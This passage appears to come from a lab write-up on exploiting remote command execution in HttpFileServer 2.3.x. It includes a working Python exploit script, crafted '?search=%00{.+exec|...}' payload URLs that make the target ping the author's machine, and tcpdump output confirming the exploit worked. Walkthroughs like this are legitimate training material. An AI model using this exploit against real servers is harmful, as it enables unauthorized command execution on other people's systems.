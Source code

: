     import urllib3
    import sys
    import urllib.parse
    
    try:
            http = urllib3.PoolManager()    
            url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
            print(url)
            response = http.request('GET', url)
            
    except Exception as ex:
            print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
            print(ex)
    

In Python, `{}` in a f-string (notice the url is wrapped in `f' '`) represent
variables, so the `{{` and `}}` are how you escape to write actual curly
brackets. So this is just a single HTTP request to `/?search={.+exec|[url-
encoded command].}` to get RCE.

    
    
    http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}
    

Or URL decoded:

    
    
    http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}
    

### POC

As a proof of concept, I crafted this URL to try to ping myself:

    
    
    http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
    

If it works, I should see a single ICMP packet at my host. I started `tcpdump`
and submitted, and nothing.

Often, this can be an issue with the system not finding the path to `ping` in
this current environment. So I tried adding `cmd /c` before the command:

    
    
    http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
    

It worked (interestingly four times):

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
    16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
    16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
    16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
    